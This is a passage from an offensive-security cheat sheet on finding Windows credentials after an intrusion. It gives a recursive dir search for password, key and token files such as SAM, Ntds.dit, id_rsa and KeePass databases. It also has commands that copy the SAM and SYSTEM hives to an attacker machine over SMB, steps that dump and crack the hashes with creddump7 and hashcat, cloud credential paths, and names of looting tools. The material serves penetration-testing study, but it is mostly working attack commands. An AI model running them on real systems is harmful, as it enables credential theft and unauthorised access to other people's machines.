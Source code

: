 ```
cd C:\
dir /s/b /A:-D RDCMan.settings == *.rdg == *_history* == httpd.conf == .htpasswd == .gitconfig == .git-credentials == Dockerfile == docker-compose.yml == access_tokens.db == accessTokens.json == azureProfile.json == appcmd.exe == scclient.exe == *.gpg$ == *.pgp$ == *config*.php == elasticsearch.y*ml == kibana.y*ml == *.p12$ == *.cer$ == known_hosts == *id_rsa* == *id_dsa* == *.ovpn == tomcat-users.xml == web.config == *.kdbx == KeePass.config == Ntds.dit == SAM == SYSTEM == security == software == FreeSSHDservice.ini == sysprep.inf == sysprep.xml == *vnc*.ini == *vnc*.c*nf* == *vnc*.txt == *vnc*.xml == php.ini == https.conf == https-xampp.conf == my.ini == my.cnf == access.log == error.log == server.xml == ConsoleHost_history.txt == pagefile.sys == NetSetup.log == iis6.log == AppEvent.Evt == SecEvent.Evt == default.sav == security.sav == software.sav == system.sav == ntuser.dat == index.dat == bash.exe == wsl.exe 2>nul | findstr /v ".dll"
```



### SAM and SYSTEM backups

The SAM and SYSTEM files are located in the C:\Windows\System32\config directory. The files are locked while Windows is running. Backups of the files may exist in the C:\Windows\Repair or C:\Windows\System32\config\RegBack directories.

if you find any backup files copy them to the attacker machine and use creddump7 to dump the hashes from SAM database:

```
copy C:\Windows\Repair\SAM \\192.168.1.11\tools\
copy C:\Windows\Repair\SYSTEM \\192.168.1.11\tools\

git clone https://github.com/Neohapsis/creddump7.git

python2 creddump7/pwdump.py SYSTEM SAM
```

you can try to crack the admin hash with hashcat:

```
hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt
```

### Cloud Credentials <a href="cloud-credentials" id="cloud-credentials"></a>

```
##From user home.aws\credentialsAppData\Roaming\gcloud\credentials.dbAppData\Roaming\gcloud\legacy_credentialsAppData\Roaming\gcloud\access_tokens.db.azure\accessTokens.json.azure\azureProfile.json
```

### Tools that search for passwords <a href="tools-that-search-for-passwords" id="tools-that-search-for-passwords"></a>

​[**MSF-Credentials Plugin**](https://github.com/carlospolop/MSF-Credentials) **is a msf** plugin I have created this plugin to **automatically execute every metasploit POST module that searches for credentials** inside the victim. [**Winpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) automatically search for all the files containing passwords mentioned in this page. [**Lazagne**](https://github.com/AlessandroZ/LaZagne) is another great tool to extract password from a system.
